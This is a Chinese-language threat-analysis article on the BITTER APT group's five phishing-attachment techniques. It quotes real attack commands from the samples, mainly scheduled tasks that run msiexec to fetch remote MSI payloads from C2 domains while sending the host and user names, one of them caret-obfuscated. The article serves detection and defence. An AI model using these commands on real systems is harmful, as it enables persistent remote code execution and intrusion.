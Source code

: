

# APT 组织“蔓灵花”恶意邮件附件 5 种手法分析 - 先知社区

APT 组织“蔓灵花”恶意邮件附件 5 种手法分析

- - -

# 前言

最近有遇到同源样本，所以整合了一下近期”蔓灵花“组织钓鱼邮件中恶意附件执行的常见手法，包括：

-   恶意“.chm”文件投放
-   恶意"DDE"隐藏域代码执行
-   “.ppt”文件 PowerPoint 单击鼠标事件
-   恶意宏文档
-   公式编辑器漏洞利用

这篇文章会让你对上述的 5 类手法有个基本认识。后续会记录 23 年 5 月首次曝光的“蔓灵花”恶意邮件附件配套的后续载荷，白加黑”ORPCBackdoor“后门。（在此之前后续载荷常见为”wmRAT“远控）。

# 背景

蔓灵花组织，又称为 BITTER、APT-C-08、苦象、T-APT-17，是一支据称有南亚背景的高级持久性威胁（APT）组织。自 2013 年 11 月起，该组织开始活跃，并主要专注于巴基斯坦和中国两国。其攻击目标主要包括政府部门、电力行业、军工业相关单位，其意图是窃取敏感资料。

# 恶意附件手法分析

例举的五种已知的“蔓灵花”组织钓鱼手法，最终目的大都是创建计划任务定时 15 到 25 分钟请求一次 C2 远程加载（msiexec）恶意“.msi”文件。在请求时会带上计算机名和用户名，上线后 C2 后台会用计算机名和用户名创建一个空白的文件夹。攻击者会在诸多文件夹中挑选感兴趣的目标放入“.msi”文件，选中目标下次计划任务成功执行就会完成恶意的远程加载。

所以想去获取后续载荷直接访问多数时候是空的。

## （一）“.chm”文件投放

大概从 2021 年初起，“蔓灵花”组织使用“.chm”恶意文件投递的手法就很常见，这些年又猛猛吃老本。下图是一个受控的“.gov”邮箱账号，散播携带“.chm”恶意文件压缩包附件的邮件。  
[![](assets/1708677506-3525761564de702174cf26c3de1036fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221170853-d5f198b4-d098-1.png)  
查看其包含的恶意代码如下，主要是功能是创建一个恶意的计划任务。  
[![](assets/1708677506-2d5d40a73c86f599fe5a52c5ca1e2900.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221170912-e0fcad3e-d098-1.png)  
每隔 17 分钟远程加载（msiexec）一次恶意资源，并且上传主机名和用户名，计划任务如下图。  
[![](assets/1708677506-e0192d023938b7c42302305452dcb73f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221170927-ea2907a4-d098-1.png)  
请求 url 地址

```plain
http://comnmsgwrapsvc.net/ver/verif.php/?h=%computername%*%username% 
http://folkmusicstreams.com/TIME/mac.php?sit=%computername%*%username%
```

抓取数据包如下图  
[![](assets/1708677506-06af77c08b157bb5b3a09d92a559095a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171012-049f07e6-d099-1.png)  
msiexec 命令远程加载是值得注意的事情。msiexec 是 Windows 操作系统下的命令行工具，用于安装、修复、卸载 Windows Installer 软件包。它支持加载远程资源安装，运行时，将 msi 文件从远程位置下载到本地的临时目录中，并在本地落地进行安装。安装完成或发生错误，临时的 msi 文件将从磁盘上删除。

所以在取证时，在受检 PC 或服务器是找不到 msi 包的。但是该方法在流量分析的角度是很容易被检测，使用 msiexec 做远程 http 资源加载，http 头“User-Agent”字段固定为“Windows Installer”（如上图）,如果你编写检测规则，一律判定恶意，就可以检测此类的远程加载恶意行为。

## （二）恶意"DDE"隐藏域代码执行

攻击者投递带有恶意 DDE auto 的文档。”.docx“文档打开时一片空白（也可能有其他正常的一些迷惑文字或图片信息），在选项中找到->视图->显示文档内容->域代码。  
[![](assets/1708677506-0414956c758cbd222e9b4f25c01ddfc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171046-19206a52-d099-1.png)  
打开之后长这样，实际上是十进制数。  
[![](assets/1708677506-a90252f8c675db2e8b9e7d639faa448a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171058-2069af62-d099-1.png)  
对应转 ascll 文本，同样是计划任务远程加载恶意 msi 文件。  
[![](assets/1708677506-6dc92845a115e134f7a0440d1cf83d48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171113-2960c7e0-d099-1.png)

```plain
"cmd /c msiexec.exe /i http://nesiallservice.net/chq/stall.msi /q"
```

值得一提的是 APT-Q-42 腾云蛇组织用过类似的手法，南亚组织手法错综复杂，好几个组织搞不好就是一伙人。

## （三）“.ppt”文件 PowerPoint 单击鼠标事件

攻击者下发恶意”.PPT“文件。在图片上设置了鼠标单击事件，同样是创建计划任务远程加载恶意 msi 资源。  
[![](assets/1708677506-cfbb07424d8b6932bcbea1530320de52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171208-4a20ea14-d099-1.png)

```plain
cmd.exe <p style=color:white> /c schtasks /create /sc minute /mo 15 /tn AudioDg /f /tr  "%coMSPec% /c start /min msiexec /i  http://farleysmxpph.com/FOXX/far.php?ptu=%computername%*%username% /qn /norestart"& echo"</p><h3>继续</h3><p style=color:white>
```

## （四）文档宏病毒

攻击者下发携带恶意宏的文件。宏文档投递数相对较少见，毕竟初次要提示用户启用与否，可能总体成功率不高。启用宏之后在开发工具-->VB 编辑器中查看。  
[![](assets/1708677506-694f28bf084b3ba5e9a15638e677031a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171246-6087ccfa-d099-1.png)  
可能存在密码校验，使用工具 VBA\_Password\_Bypasser 即可解密，注意这玩意儿要激活才能使用，有教程可以找到。后续就可以分析其中的恶意代码功能了。  
[![](assets/1708677506-03d7920e6f7ecedaf6d2d8faaf8eeb96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171301-69864e9e-d099-1.png)

## （五）CVE-2018-0798 公式编辑器漏洞

攻击者下发携带漏洞的”.xlsx"文件，在诸多公式编辑器漏洞里，CVE-2018-0798 算是利用成功率比较高的。这受影响的版本软件和样本还有点难找。  
[![](assets/1708677506-a5d0d29473ecbd76c11a3fa8119dd89b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171412-93cedd7e-d099-1.png)  
这是进程释放的详情，也是一样的创建计划任务远程恶意加载。  
[![](assets/1708677506-798442db9481f3ab1eba4eb8035ff2c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221171430-9e66893a-d099-1.png)

```plain
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 15 /TN \Windows\DWM\DWMCORE /TR "cmd /c start /min ms^iex^ec /i htt^p^:^//alf^ieh^eal^thc^ares^erv^ice^.^com/AL/al.php/?dt=%computername% /q" /f
```

- - -
